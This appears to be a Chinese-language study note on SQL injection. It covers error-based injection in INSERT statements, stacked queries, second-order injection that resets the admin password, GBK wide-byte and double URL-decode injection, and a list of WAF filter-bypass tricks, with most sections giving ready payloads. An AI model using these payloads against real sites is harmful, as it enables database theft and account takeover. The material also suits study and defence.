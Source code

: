 # 其他注入

## 一、更新注入

- 所有更新类操作，只返回布尔型结果，不会返回数据，所以无法像select一样进行多样化处理，所以更新类操作的核心就是构建报错注入的payload

  ```sql
  insert into user(username, password, role) vlues('wowo' or updatexml(1, concat(0x7e,database(), 0x7e),1) or '', '1243','user')
  
  # update、delete语句同理
  ```

## 二、堆叠注入

- 通过再语句中加分号的方式一次性执行多条语句

  ```sql
  select * from user where userid=1; update user set password='1234' where userid=1
  ```

## 三、二次注入

- 先完成注册，页面使用addslashes的情况下，注册一个`admin'#`的用户

- 修改`admin'#`的密码，就会把`admin`的密码改掉

  ```php
  $sql = "UPDATE user set password='$password' where username='$username'"
  // 其中$username为admin'#
  ```

## 四、宽字节注入

- 通常在GBK等宽字节编码时使用

- 当输入1'时，再addslashes函数的保护下，单引号会被加反斜杠转义：`select *from article where articleid='1\'';` 
- 当输入1%bf'时，再GBK等宽字符集的环境下，%bf和转义符（反斜杠）的`%5c`形成新的字符，注入时的sql语句：`select *from article where articleid='1%bf\' and 1=1%23';` 

- %bf与转义符组合形成了%bd%5c形成新字符，从而吃掉这个转义符号，导致单引号别，从而形成注入

## 五、URL解码注入

- 只要字符被转换理论上就有注入的可能，现在对sql注入的防御主要是对单类单引号，双引号，反斜杠进行转义
- 如果某个地方使用了urldecode或者rawurldecode函数的话，就会导致二次解码生成单引号引发注入
- 原理时当提交web参数时，web服务器就会自动对url编码进行一次解码，假设目标有了过滤，但提交id=1%2527的时候，没有带单引号（单引号url编码为%27），这是服务器会自动解码，先解%25，而%25就是`%`,就能刚好和剩下的27组合成%27，如果程序里还有urldecode这样的解码函数时，就会二次解码，将%27解码为单引号，就会形成id=1'从而引发注入

## 六、绕过

- 绕过空格

  ```
  可以通过圆括号绕过
  /**/、%20、%a0、%0a、%0d、%0b、%09、%0c
  ```

- 用||代替or , 用&&代替and

- 所有的确定字符串，都可以使用hex函数来处理成16进制，避免引号转义

- 双写绕过

  ```
  select、and、or 等被过滤的话可以这么构造：
  selselectect、anandd，这样即便过滤了剩余字符串也能拼接成正常语句
  ```

- 大小写绕过

  ```
  sql对关键字大小写不敏感
  AnD、SelEcT、Or，可以绕过简单的过滤手段
  ```

- 普通注释绕过

  ```
  un/**/ion——>union
  se/**/lect ——>select
  ```

- 内联注释

  ```
  在/*后加惊叹号 ! 意为/* */里的语句将被执行，仅适用于MySQL数据库
  /*!union*/ sel/**/ect 1,2,3
  ```

- 00截断

  ```
  sel%00ect       可以绕过简单的WAF,但mysql中不会截断，可以正常执行
  ```

- %

  ```
  sele%ct         如果是iis+asp，百分号会被忽略
  ```

  